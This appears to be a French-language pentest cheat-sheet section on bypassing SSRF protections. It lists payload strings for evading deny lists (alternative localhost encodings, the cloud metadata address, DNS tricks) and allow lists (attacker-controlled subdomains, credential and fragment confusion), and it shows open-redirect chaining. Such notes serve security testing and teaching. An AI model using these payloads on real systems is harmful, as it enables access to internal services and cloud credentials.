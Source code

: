## Liste de refus ou liste noire (Deny List)
C'est l'endroit où toutes les demandes sont acceptées, à l'exception des ressources spécifiées dans une liste ou correspondant à un modèle particulier. 

Ce filtre peur etre contourner à l'aide des techniques suivantes : 

1. En utilisant d'autres références localhost telles que :

```
0
0.0.0.0
0000
127.1
127.*.*.*
2130706433
017700000001
```

ou des sous-domaines qui ont un enregistrement DNS qui correspond à l'adresse IP 

```sh
127.0.0.1.
127.0.0.1.ghi
127.0.0.1.nip.io.

#Cloud
169.254.169.254
```

2. Enregistrez son propre nom de domaine qui se résout en `127.0.0.1`. Collaborator de Burp Suite fait bien cela.
3. Masquez les chaînes bloquées à l'aide du double encodage d'URL ou de la variation de casse.
4.  Fournissez une URL que vous contrôlez, qui redirige vers l'URL cible. Essayez d'utiliser différents codes de redirection, ainsi que différents protocoles pour l'URL cible (`http` et `https`)
5. Tranverse de chemin avec `x/../path`

## Liste d'autorisation ou liste blanche (Allow List)
C'est l'endroit où toutes les demandes sont refusées à moins qu'elles n'apparaissent sur une liste ou ne correspondent à un modèle particulier.

Comme une règle selon laquelle une URL utilisée dans un paramètre doit commencer par  `https://website.com`

Ce filtre peur etre contourner à l'aide des techniques suivantes : 

1. En créant un sous-domaine sur le nom de domaine d'un attaquant, tel que :

```
https://website.com.attacker.com
```

2. Intégrer des informations d'identification dans une URL avant le nom d'hôte

```sh
https://username@website.com
# Ou
https://username:fakepassword@website.com
```

3. Indiquer un fragment d'URL

```
https://username#@website.com
```

4. Exploiter la hiérarchie de dénomination DNS pour placer les données requises dans un nom DNS complet que vous contrôlez

```
https://attacker.com.website.com

https://website.com.attacker.com
```

5. **Utiliser des combinaisons de ces techniques ensemble.**

```
http://localhost:80#@website.com/admin
```


## Open Redirect
C'est un point de terminaison sur le serveur où le visiteur du site Web est automatiquement redirigé vers une autre adresse de site Web comme `https://website.com/link?url=https://google.com`

La fonctionnalité peut eter utiliser pour rediriger la requête HTTP interne vers un domaine de son choix.

```
https://website.com/link?url=https://127.0.0.1/api/users
```

> Utiliser le path de l'open redirect dans le parametre vulnerable au SSRF


